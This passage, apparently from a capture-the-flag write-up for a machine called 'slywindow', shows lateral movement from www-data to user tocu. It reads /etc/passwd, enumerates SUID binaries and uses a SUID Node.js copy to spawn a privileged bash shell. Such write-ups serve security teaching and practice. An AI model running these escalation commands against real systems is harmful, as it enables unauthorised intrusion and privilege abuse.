## Lateral Movement to User tocu

We stabilize the shell to facilitate its use and enumerate the users present in the system, identifying `tocu` and `root`.

```bash
www-data@slywindow:/var/www/html$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
tocu:x:1000:1000:tocu,,,:/home/tocu:/bin/bash
```

We enumerate files with the SUID bit enabled to identify possible privilege escalation vectors.

```bash
find / -perm -4000 2> /dev/null
```

```bash
www-data@slywindow:/dev/shm$ find / -perm -4000 2> /dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/mount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/umount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/opt/backup/backup_utility
/opt/loginandvisit/tocunode
```

We identify two potentially interesting binaries. Upon analyzing both to determine their functionality, we find that we do not have execution permissions on `/opt/backup/backup_utility`, but we can execute `/opt/loginandvisit/tocunode`.

```bash
www-data@slywindow:/dev/shm$ ls -lh /opt/loginandvisit/tocunode
-rwsr-sr-x 1 tocu tocu 116M Jul 30 20:44 /opt/loginandvisit/tocunode
www-data@slywindow:/dev/shm$ /opt/loginandvisit/tocunode  
Welcome to Node.js v22.17.1.
Type ".help" for more information.
> 
(To exit, press Ctrl+C again or Ctrl+D or type .exit)
> 
www-data@slywindow:/dev/shm$ /opt/loginandvisit/tocunode --version
v22.17.1
```

This is a copy of Node.js owned by user `tocu` with the SUID bit enabled. Consulting GTFOBins, we identify a technique to leverage this binary and escalate privileges, gaining access as user `tocu`.

```bash
/opt/loginandvisit/tocunode -e 'require("child_process").spawn("/bin/bash", ["-p"], {stdio: [0, 1, 2]})'
```
